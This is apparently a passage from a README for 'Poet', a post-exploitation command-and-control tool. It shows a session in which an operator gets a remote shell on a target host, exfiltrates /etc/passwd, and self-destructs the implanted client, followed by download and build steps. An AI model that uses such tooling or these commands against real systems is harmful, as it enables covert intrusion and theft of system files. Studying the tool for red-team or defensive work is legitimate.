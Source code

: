 ```
  help
  recon
  selfdestruct
  shell
posh > shell
posh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
posh > user@server $ ^D
posh > exfil /etc/passwd
posh : exfil written to archive/20150628/exfil/passwd-201506285917.txt
posh > ^D
[+] (06/28/15 03:59:18) Exiting control shell
[-] (06/28/15 03:59:18) Poet server terminated
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:59:26) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:59:26) Poet server started (port 443)
[+] (06/28/15 03:59:28) Connected By: ('127.0.0.1', 54542) -> VALID
[+] (06/28/15 03:59:28) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > selfdestruct
[!] WARNING: You are about to permanently remove the client from the target.
    You will immediately lose access to the target. Continue? (y/n) y
[+] (06/28/15 03:59:33) Exiting control shell
[-] (06/28/15 03:59:33) Poet server terminated
```

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy, see below).

## building

Make sure you have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

